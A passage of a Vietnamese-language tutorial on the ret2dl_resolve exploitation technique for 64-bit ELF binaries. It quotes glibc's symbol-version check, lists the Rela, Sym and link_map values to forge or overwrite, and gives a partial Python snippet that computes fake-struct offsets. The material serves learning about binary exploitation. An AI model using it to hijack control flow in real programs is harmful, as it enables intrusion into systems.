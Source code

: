  Cách thức tính toán thay đổi ở Rela_offset - đối số của `_dl_runtime_resolve` là chỉ số của cấu trúc thay vì là giá trị bù đắp (offset), còn lại cách thức tính toán tên của `symbol` cần `resolve` tương tự trên 32 bit.

>Note: Vấn đề phát sinh ở kiến trúc 64 bit xuất phát từ đoạn mã sau:

```c
const struct r_found_version *version = NULL;
 
if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
{
    const ElfW(Half) *vernum = (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
    ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
    version = &l->l_versions[ndx];
    if (version->hash == 0)
        version = NULL;
}
```

Cụ thể bạn có thể đọc kỹ hơn ở phần `The Exploit` của bài viết này [ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve) . Từ đó kết hợp với những lần khai thác lại mẫu của tôi `(tôi sẽ để cả hai trường hợp ở VD mẫu)` tôi chia `ret2dl_resolve` trên 64 bit ra hai trường hợp xử lý:

      1) Vùng .bss được ánh xạ ở nơi có địa chỉ dạng `0x60xxxx` - Trường hợp này bạn cần hàm `write` hoặc hàm có chức năng tương tự từ libc để leak giá trị của link_map (GOT + 8) phục vụ việc ghi đè (l->l_info[VERSYMIDX (DT_VERSYM)] == NULL) dẫn đến không thực thi đoạn mã `check version` nên không sinh ra lỗi.
      
      2) Vùng .bss được ánh xạ nơi có địa chỉ dạng `0x40xxxx` - Trường hợp này khai thác như trên 32 bit khi mà mã nguồn chương trình cần khai thác chỉ có một hàm `read` từ libc và khi đó struct fake tại .bss không quá lớn dẫn đến lỗi `check version`.

### [*] Tóm lại cần fake 

**1.** `Rela_offset` - Argument function `_dl_runtime_resolve` .

**2.** `Elf64_Rela->r_info` - Fake struct Elf64_Rela .

**3.** `Elf64_Sym->st_name` - Fake struct Elf64_Sym .

**4.** Leak `link_map` bằng hàm libc nếu có và ghi đè giá trị của `link_map + 0x1d0` ( hoặc `linkmap + 0x1c8` tùy phiên bản libc ) thành NULL (TH: .bss => 0x60xxxx) .

Để khai thác cần tính toán, lựa chọn vị trí và align phức tạp nữa nên một lần nữa tôi nhấn mạnh đây chỉ giống như `cheat sheet` => đọc và làm ví dụ tôi để trong mẫu 64 bit (có cả hai trường hợp).

```python
### FAKE INFO
forged_area = base_stage + 40 # 64 - 8 * 3         # fake contain struct from fake + 40 = EXAMPLE

addr_rela = forged_area
align_rela = 24 - ((addr_rela - JMPREL) % 24)
addr_rela = addr_rela + align_rela

addr_sym = addr_rela + 24
align_sym = 24 - ((addr_sym - SYMTAB) % 24)
addr_sym = addr_sym + align_sym

log.info("Align rela: " + hex(align_rela))
log.info("Align sym: " + hex(align_sym))

addr_string = addr_sym + 24

rela_offset = (addr_rela - JMPREL) // 24
index_sym = (addr_sym - SYMTAB) // 24
r_info = (index_sym << 32) | 0x7
st_name = addr_string - STRTAB

### FAKE STRUCT
```